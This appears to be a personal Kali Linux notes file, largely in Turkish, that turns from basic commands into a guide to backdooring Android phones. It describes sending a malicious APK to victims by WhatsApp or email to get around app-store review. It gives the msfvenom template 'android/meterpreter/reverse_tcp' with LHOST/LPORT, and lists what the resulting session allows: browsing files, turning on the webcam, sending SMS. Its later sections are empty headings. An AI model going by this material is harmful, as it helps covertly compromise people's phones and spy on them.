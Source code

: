 # kali
Useful codes for kali linux

## Keyboard Commands
```setxkbmap tr``` -> to change keyboard language option. After shut down Kali Linux, this must be run once again because it will no more available. 

Kali Linux is case sensible.

```mkdir``` -> Creates a new folder.


```apt-get install dsniff```

dSniff is a set of password sniffing and network traffic analysis tools written by security researcher and startup founder Dug Song to parse different application protocols and extract relevant information. dsniff, filesnarf, mailsnarf, msgsnarf, urlsnarf, and webspy passively monitor a network for interesting data (passwords, e-mail, files, etc.). arpspoof, dnsspoof, and macof facilitate the interception of network traffic normally unavailable to an attacker (e.g., due to layer-2 switching). sshmitm and webmitm implement active man-in-the-middle attacks against redirected SSH and HTTPS sessions by exploiting weak bindings in ad-hoc PKI.[2] [3]

```passwd```
changes password

## Backdoor Applications


### Backdoor IOS and Android

IOS de bir uygulama yaptigimizda bunu kullaniciya ulastirmak icin elimizde cok az yol var. 
1)AppStore a koymak zorundayiz.
2)Kurban telefonunu fiziksel olarak elimize alip telefonu kablo ile MaC imize baglayip uygulamayi telefona indirebiliyoruz
3)Apple Business Developer hesabi ile uygulama ciktigimizda bunu AppStore a yuklememiz gerekmiyor. O isletmedeki belli kullanicilara uygulamayi acabiliyoruz. Bu sayede de zararli yazilimlari kullaniciya gonderebiliyoruz. 

Android - Google Play

Android de de siki denetim var. Diyelim ki bir app yazdik hem IoS hem de Android, Android e o gun yukleyebiliriz ama IoS tarafi cok inceleme yaptigindan o gun yayinlanmayabilir. Icersiinde bir backdoor uygulamasi olan app sonsuza kadar da Google paly de kalacak anlamina gelmemeli bu. Bir gun o app de silinir. Bunun yerine app i Google Play e yukleyip kullanicilara mesaj yoluyla(email, whatsapp vb) gibi gondermeyi tercih ederler Android de. 


Kullanicinin tek yapmasi gereken Google Play ayarlarinda Google Play store disindaki app lere olan izin kutusunu da acmis olmasi. Google play de app i mesaj yoluyla birilerine gonderebiliyoruz. 

Telefon icinde backdoor ureten araclardan bazilari hali hazirda Kali Linux icerisinde mevcut.

```msfvenom```

### Payload
-p -- payload; Hangi isletim sistemine, hangi ortamda nasil bir saldiriyla backdoor un olusacagi belirtilir.  Andoid icin olusturacagim APK dosyasinda bu payload da belirttigimiz tum arametreler yer alacaktir. 

APK Nedir? Bir kod yazildiktan sonra Android de uygulama haline getirdigimiz son dosyadir. Windows daki .exe dosyalari gibi. 
```msfvenom``` bize bir APK cikartacak, biz de bu APK yi kullaniciya yollayacagiz, kullanici da tikladiginda bizim Kali Linux mize bir baglanti gelecek. 

#### msfvenom -p nasil kullanilir?
Ornegin Windows icin bir backdoor uygulamasi olustursaydik -p ye isletim sistemi olarak Windows u belirtecektik.
Benzer sekilde Android icin;

```msfvenom -p android/meterpreter/reverse_tcp```

```meterpreter``` bir session aracidir. Ne demek session araci? Kurban hacklendiginde bizde meterpreter adinda bir session acilacak. Session, baglanti acilmasi demek. Bu meterpreter in ozelliklerini(dosya sisteminde gezinmek, kurbanin webcamini acmak, telefonundan sms yollamak) kullanip kurbanin telefonunda istedgimiz seyleri yapabilecegiz. Kurbani hackledikten sonra yapilabilecek en iyi seylerden biri meterpreter in acik oldugundan amin olmak. 

```reverse_tcp``` ters baglanti anlamina gelir

Backdoor larda iki secenek var;
1) Benim Kali Linux umden kurbana bir baglanti istegi yollamak; bu secenek cogu zaman Pc de veya mobile da kurbana baglanti istegi gittiginde bir firewall ya da guvenlik onlemi varsa bu cok kolay seilde fark edilebilir. 
2) reverse_tcp de ise kurban dan bize baglanti geliyor. Andoid e gonderdigimiz APK yi tiklayan kurban bize bir baglanti yolluyor. tcp ise hangi port y da teknoloji uzerinden baglanti yollayacagimizi belirttigimiz parametre. tcp yerine http ya da https de diyebiliriz. tcp su an en iyi calisani.
                         
### IP Adresses
```msfvenom -p android/meterpreter/reverse_tcp LHOST= LPORT= ```
LHOST: Localhost Su an uzerinde calistigimiz bilgisayarin IP adresi. Public IP mizi yazariz yani modemimizin IP adresini. Google dan ***what is my ip*** yazarak IP mizi ogrenebiliriz. Ayni agdaki tum cihazlarin public IP si aynidir, modemimize baglali bilgisayarlarimizin, telefonumuzun, televizyonumuzun hepsinin public Ip si aynidir.
Neden public IP mize yollatiyoruz? Cunku baglantinin bize ulasmasini istiyoruz.


Her cihazimizin kendi ait bir de yerel IP adresi var. Global IP adresini vermek hack lerken tehlikeli. 


LPORT: Localport Bilginin gelecegi port

Kurbana yolladigimiz dosyaya(trojan, virus) tikladiginda baglanti nereye gitsin? bu iki komutla belirliyoruz. 


### Tunnel Service

ngrok.com

```service apache2 start``` Kali Linux un icerisinde bulunan apache2 adli sunucu calistiracak. Sunucu nedir? Icersinde dosyalar bulunan, internet uzerinde farkli yerlere hizmet vermemizi olanak taniyan bir makina. Normalde web sitelerini sunucular uzerinde saklariz. Misal kendi Kali Linux muz icerisinde bir web sitesi yapabiliriz. 

Kali Linux icerisinde;
**/var/www/html/index.html** path inde web sitesi bulunmakta. Kali Linux NAT network de ve burada baska herhangi bir makina yok. Eger farkli isletim sistemelriyle farkli VM lrimiz olsaydi bu web sitesine hepsinden girilebilirdi cunku ayni agda olacaklardi. 

```ifconfig``` yazdigimizda inet in yanindaki IP adresini Firfox u acip arama cubuguna yazdigimizda apache 2 web sayfasi acilacak. 

### Create an APK

### Listening

### Signing 


### Hacking the Mobile phone

